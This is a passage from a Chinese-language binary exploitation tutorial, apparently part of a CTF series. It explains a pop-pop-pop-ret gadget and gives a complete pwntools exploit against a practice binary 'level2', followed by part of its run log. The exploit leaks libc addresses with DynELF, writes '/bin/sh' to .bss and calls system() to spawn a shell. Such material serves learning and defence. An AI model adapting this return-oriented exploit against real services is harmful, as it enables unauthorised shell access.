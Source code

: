 因为我们在执行完read()之后要接着调用`system(“/bin/sh”)`，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到。PS：我们会在随后的章节中介绍如何用工具寻找更复杂的gadgets。

整个攻击过程如下：首先通过DynELF获取到system()的地址后，我们又通过read将“/bin/sh”写入到.bss段上，最后再调用`system（.bss）`，执行“/bin/sh”。最终的exp如下:

```
#!python
#!/usr/bin/env python
from pwn import *

elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x08048474

def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data


p = process('./level2')
#p = remote('127.0.0.1', 10002)

d = DynELF(leak, elf=ELF('./level2'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

bss_addr = 0x0804a020
pppr = 0x804855d

payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)
#ss = raw_input()

print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")

p.interactive()
```

执行结果如下：

```
#!bash
$ python exp4.py 
[+] Started program './level2'
0x8048000 => 7f454c46
[+] Loading from '/home/mzheng/CTF/level2': Done
0x8049ff8 => 18697eb7
[+] Resolving 'system' in 'libc.so': 0xb77e6918
0x8049f28 => 01000000
0x8049f30 => 0c000000
0x8049f38 => 0d000000
0x8049f40 => f5feff6f
0x8049f48 => 05000000
0x8049f50 => 06000000
0x8049f58 => 0a000000
0x8049f60 => 0b000000
0x8049f68 => 15000000
0x8049f70 => 03000000
```